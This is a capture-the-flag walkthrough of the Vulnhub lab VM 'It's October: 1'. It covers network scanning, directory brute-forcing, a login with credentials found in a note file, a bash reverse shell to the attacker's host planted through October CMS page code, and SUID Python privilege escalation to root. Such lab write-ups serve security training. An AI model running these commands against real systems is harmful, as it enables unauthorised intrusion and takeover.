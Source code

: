 |[Home](/README.md)|[Projects](/projects.md)|[Articles](/articles.md)|[Apophthegm](/apophthegm.md)|[About](/about.md)|

# **It's October: 1**

The virtual machine is released on April 8, 2020 at Vulnhub.  The goal is to get the root flag of the target.  However, it encourages you to use the functionalities rather than vulnerabilities of the target.  It is designed to test your penetration testing skills and concepts.

Available on : [Vulnhub](https://www.vulnhub.com/entry/its-october-1,460/)  
Difficulty : Easy/Medium Level  
Format : OVA (Virtualbox)

Kali Linux 2020.1b is used for the testing.

The VM shows the IP address of the box when you boot it up.  However, you can confirm the IP address on your own.

```bash
sudo netdiscover -r 10.0.2.0/24
```

![](https://raw.githubusercontent.com/samiux/images/master/october/001.png)  

The target's IP address is ```10.0.2.31```.

```bash
sudo nmap -Pn -p- -sS -sV -A 10.0.2.31
```

![](https://raw.githubusercontent.com/samiux/images/master/october/002.png)

The screenshot of ```http://10.0.2.31``` is :

![](https://raw.githubusercontent.com/samiux/images/master/october/003.png)

The screenshot of ```http://10.0.2.31:8080``` is :

![](https://raw.githubusercontent.com/samiux/images/master/october/004.png)

Inspect the source code of port 8080 and find ```mynote.txt``` on the page.  Let's access the ```mynote.txt```.  It shows the username and password.  However, we do not know the admin page yet.  It is suspected to be on port 80 instead of 8080.

![](https://raw.githubusercontent.com/samiux/images/master/october/005.png)

![](https://raw.githubusercontent.com/samiux/images/master/october/006.png)

We need to find out the admin page of the port 80 by gobuster and set the threads to 5 or errors may be shown.

```bash
sudo gobuster dir -u http://10.0.2.31 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t5
```

When access ```backend``` directory, the admin panel page is shown.

![](https://raw.githubusercontent.com/samiux/images/master/october/007.png)

![](https://raw.githubusercontent.com/samiux/images/master/october/008.png)

Log in with username ```admin``` and password ```adminadmin2```.

![](https://raw.githubusercontent.com/samiux/images/master/october/009.png)

The version is ```build 465``` and it is the current version as at the time of this writing.  The is no known vulnerability found so far.

After reading the documentation of the [October CMS](https://octobercms.com/docs/cms/pages#life-cycle-response), it is suspected that it is desgined to run ```JavaScript``` by default.  Let's confirm it!

```html
<html>
<body>
	<script>alert("xss");</script>
</body>
</html>
```

![](https://raw.githubusercontent.com/samiux/images/master/october/012.png)

![](https://raw.githubusercontent.com/samiux/images/master/october/010.png)

![](https://raw.githubusercontent.com/samiux/images/master/october/011.png)

It is confirmed that it can run ```JavasScript``` by default.  Let's use ```onStart()``` function to execute the bash shell.

```javascript
function onstart() {
	exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.2.24/4444 0>&1'");
}
```

![](https://raw.githubusercontent.com/samiux/images/master/october/013.png)

The netcat listener at port 4444 on Kali Linux.

```bash
nc -lvp 4444
```

![](https://raw.githubusercontent.com/samiux/images/master/october/014.png)

After saved the page and ```review``` it.  The shell is ported accordingly.

![](https://raw.githubusercontent.com/samiux/images/master/october/015.png)

The current user is ```www-data```.  We need to find a way for privilege escalation.

```bash
find / -perm -u=s -type f 2>/dev/null
```

The output shows that ```python3.7``` is in sticky bit.  We try to privilege escalate it using Python 3.

```bash
python3 -c 'import os; os.execl("/bin/bash", "bash", "-p")'
```

As a result, we get ```euid=0(root)``` after running the above command.

We then go to the /root and display the ```proof.txt```.  Bingo!  Root is dancing!

![](https://raw.githubusercontent.com/samiux/images/master/october/016.png)

### Final thought

This is a typical Capture The Flag (CTF) game, however, it does not use the vulnerability to exploit it.  It is a very interesting box indeed!

Samiux  
OSCE  OSCP  OSWP  
April 19, 2020, Hong Kong, China  


|[Home](/README.md)|[Projects](/projects.md)|[Articles](/articles.md)|[Apophthegm](/apophthegm.md)|[About](/about.md)|
